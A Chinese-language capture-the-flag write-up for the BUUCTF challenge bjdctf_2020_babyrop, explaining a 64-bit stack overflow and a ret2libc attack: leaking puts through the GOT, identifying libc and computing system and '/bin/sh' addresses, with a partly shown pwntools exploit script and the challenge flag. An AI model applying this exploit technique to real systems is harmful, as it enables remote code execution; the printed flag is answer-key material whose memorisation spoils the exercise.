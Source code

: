 ![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babystack/5.png)

------

### [bjdctf_2020_babyrop](https://buuoj.cn/challenges#bjdctf_2020_babyrop)

先`file ./bjdctf_2020_babyrop`查看文件类型再`checksec --file=bjdctf_2020_babyrop`检查一下文件保护情况。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babyrop/1.png)

用`IDA Pro 64bit`打开附件`bjdctf_2020_babyrop`，按`F5`反汇编源码并查看主函数，发现`vuln()`函数很可疑。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babyrop/2.png)

双击发现`vuln()`函数，发现该函数中有个`buf`变量是`char`型数组，`buf`的长度只有`0x20`，`read()`函数限制输入到`buf`变量的字节数为`0x64`，显然存在栈溢出漏洞。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babyrop/3.png)

双击`buf`变量查看其在内存中的虚拟地址信息，构造`payload`时可以先用`0x20`个字节占满`buf`变量，然后再加上`r`的`8`个字节。

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babyrop/4.png)

在`Function Window`中并没有找到`system()`函数和`'/bin/sh'`字符串，但是主函数中有`puts()`函数啊！程序执行前，`got`表中存放的还是`plt`表的地址，但是程序执行后，`plt`表中存放的是`got`表的地址，`got`表中存放的是函数的真实地址。因此我们可以用`ELF`来获取`puts()`函数的`plt`表和`got`表地址，进行栈溢出并通过`puts()`函数泄露`puts()`函数在`got`表中的真实地址后，进而判断`libc`的版本，然后我们可以根据`libc`版本中`puts()`函数的偏移地址来计算出`libc`的基址地址，再根据`libc`中的`system()`函数和`'/bin/sh'`字符串的偏移地址来算出函数的真实地址，从而构造`shellcode`拿到`flag`。

在`64`位程序中，函数的前`6`个参数是通过寄存器传递的，分别是`rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`(当参数小于`7`时)，所以我们需要用`ROPgadget`找到`pop_rdi`和`pop_ret`的地址。

```python
ROPgadget --binary ./bjdctf_2020_babyrop --only "pop|ret"
```

![](https://paper.tanyaodan.com/BUUCTF/bjdctf_2020_babyrop/5.png)

编写`Python`代码即可得到`flag{aed7af27-c195-4e84-824f-263dc8fb04df}`。

```python
from pwn import *
from LibcSearcher import *

context(arch='amd64', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 28823)
e = ELF('bjdctf_2020_babyrop')
puts_plt = e.plt['puts']
log.success('puts_plt => %s' % hex(puts_plt))
puts_got = e.got['puts']
log.success('puts_got => %s' % hex(puts_got))
main_address = e.symbols['main']
log.success('main_address => %s' % hex(main_address))
pop_rdi = 0x400733 # ROPgadget --binary ./bjdctf_2020_babyrop --only "pop|ret"
payload = b'a'*0x20 + b'fuckpwn!' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_address)
io.sendlineafter(b'Pull up your sword and tell me u story!\n', payload)
puts_address = u64(io.recvline().strip(b'\n').ljust(8, b'\x00'))
log.success('puts_address => %s' % hex(puts_address))
libc = LibcSearcher('puts', puts_address) # 获取libc版本, libc6_2.23-0ubuntu11_amd64
libcbase = puts_address - libc.dump('puts') # libc的基址=puts()函数地址-puts()函数偏移地址
log.success('libcbase_address => %s' % hex(libcbase))
system_address = libcbase + libc.dump('system') # system()函数的地址=libc的基址+system()函数偏移地址
log.success('system_address => %s' % hex(system_address))
bin_sh_address = libcbase + libc.dump('str_bin_sh') # '/bin/sh'的地址=libc的基址+'/bin/sh'偏移地址
log.success('bin_sh_address => %s' % hex(bin_sh_address))
pop_ret = 0x4004c9 # ROPgadget --binary ./bjdctf_2020_babyrop --only "pop|ret"
```